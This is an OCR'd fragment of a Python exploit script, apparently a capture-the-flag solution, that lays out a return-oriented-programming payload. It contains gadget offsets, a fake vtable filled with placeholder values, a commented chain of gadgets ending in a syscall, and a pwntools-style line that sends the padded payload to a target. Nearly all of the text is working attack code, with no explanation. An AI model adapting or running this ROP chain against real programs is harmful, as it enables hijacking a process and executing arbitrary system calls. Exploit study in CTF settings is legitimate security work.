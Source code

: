 ```python
.0x4e0
.0xef0
.0xb077
.0x4

@0x810
.0x3e3d
.0x2
.0x92b7
.0x0

# when ROPPing this address is 0x8e0
@0x818
.0x6b
.0x1
# gadget 5 offsets from gadget 1:
.0x8a37
.0x0

# 0x8e8
.0x5af4
.0x3
.0x21c9
.0x4

# 0x8f0 => gadget 8
.0x57b2
.0x4
.0x30

# 0x8f6 => gadget 9 offsets
.0xba86
.0x9

# fake vtable => will be filled with gadget 1
@0xf00
.0x4141
.0x4242
.0x4343
.0x4444

# gadget 2
@0xf20

"""
)

# gadgets:
# 1: 0x00000000000f0ab7 : mov rsi, rbx ; call qword ptr [rax + 0x28]
# 2: 0x00000000000ccc7a : push rdi ; std ; jmp qword ptr [rsi + 0xf]
# 3: 0x00000000000e7800 : pop rsp ; mov dl, 0xff ; jmp qword ptr [rsi + 0x2e]
# 4: 0x00000000000e0a4c : add rsp, 0x30 ; pop rbx ; pop r12 ; pop rbp ; ret

# main chain
# 5: 0x00000000000e8080 : pop rax ; ret
# 6: 0x00000000000bafc3 : xor edx, edx ; ret
# 7: 0x00000000000ae8ee : pop rsi ; pop rbp ; ret
# 8: 0x00000000000ab305 : pop rdi ; pop rbp ; ret
# 9: 0x000000000018c53d : syscall

print(hexdump(code2))
p.send(code2.ljust(0x1000, b"\x77"))

```